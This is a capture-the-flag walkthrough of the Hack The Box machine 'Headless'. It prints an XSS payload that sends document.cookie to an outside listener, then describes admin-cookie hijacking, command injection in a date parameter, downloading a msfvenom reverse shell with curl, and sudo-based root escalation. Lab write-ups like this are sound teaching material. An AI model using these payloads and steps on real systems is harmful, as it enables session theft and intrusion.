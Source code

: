 ```yaml
---
date: 2025-04-15
categories: [CTF, HTB]
title: "HTB - Headless"
tags: ['linux', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Headless - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Headless

NMAP

![image1](../resources/3c80bf65f98a417abdc9de767bdd5732.png)
 
Go to port 5000 in a browser - we can see it uses cookies:

![image2](../resources/4e972bba1701417b9e40e5a5c10f90ef.png)

- HttpOnly is set to **false**
Which means we can steal the cookies of other users

- Look for directories:

`dirsearch -u http://10.129.35.58:5000 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt`



![image3](../resources/e288c54c60f64c48a19faae614f9aa4d.png)

- On the /support page:

![image4](../resources/75486423603540d39e9dafcc21025dbd.png)

- If we try and enter XSS code, we get this:

![image5](../resources/2c7e860e909e4aeb9bfcf45baf6699e3.png)

- Now looking at the error message, we see that our **User-Agent** information is being reflected

- Open Burp and forward to Repeater

- In order to get Reflected XSS we need to inject the XSS into the User-Agent field and get the page to error like before

- We need to set up a python server to catch the GET request which should have an (admin) cookie attached to it

- Using the payload:

```java
<img src=x onerror=fetch('http://10.10.14.23/?c='+document.cookie);>

```
and entering **hello;\<script\>** in the **message field** so that it errors. (Anything inside \<\> tags makes this page error)


![image6](../resources/b5f36784cc374c59afec29484a5e3d13.png)


![image7](../resources/6dc6a636156e4161a6e30a89e8050121.png)

- Got the cookie:  
is_admin= **ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0**

- Good article here:  
<https://systemweakness.com/reflected-xss-user-agent-2868ca1d5116>

- In the browser, Inspect -\> Storage -\> Cookies
- Change the cookie to the admin cookie

- Go to **/dashboard**


![image8](../resources/ac636b9d7709446f9c4a952e2b0379d1.png)

- Click on generate report and catch the request in Burp and send to Repeater:

![image9](../resources/a6c75ba552064d938d2077f2420780e4.png)


![image10](../resources/3d9119b0bfcb43c18e73d9fb2f435333.png)

- As we can see, the **date** parameter gets passed to the server as an argument

- We can inject commands into this parameter using **;**

![image11](../resources/b560fe1f3729472f939a6c1ef1b9f66f.png)

- The reverse shells didn't want to work

- But curl works:

![image12](../resources/2fd912ea3ad64fa88e83960dcac9d95d.png)

- Create a msfvenom linux .elf file and curl it onto the victim machine
- Run chmod +x on the reverse.elf file
- Set up msfconsole listener
- Run ./reverse.elf

- Got shell:

![image13](../resources/fd46e7feca16442691a127fef71146ce.png)


![image14](../resources/6e40cc79e04c467982668c5599edd89c.png)

```bash
cat user.txt

```
Upload public key to the ~/.ssh/authorized_keys and use SSH

```bash
sudo -l

```

![image15](../resources/731f0fa0989e430f997db6af215494cd.png)


![image16](../resources/3684b736a51447f0ba573b7bc3144c37.png)

- Checking the file /usr/bin/syscheck:

![image17](../resources/3d2d3f7ac3a74f41ba360d2fb04d97c7.png)

- In dvir home, create the file ./initdb.sh:

![image18](../resources/c092a50183f342d0a8f51c8493cee43e.png)

```bash
chmod +x initdb.sh
sudo /usr/bin/syscheck

```
- We have root:

![image19](../resources/974cddeac4af44649913cae2c9375fbf.png)
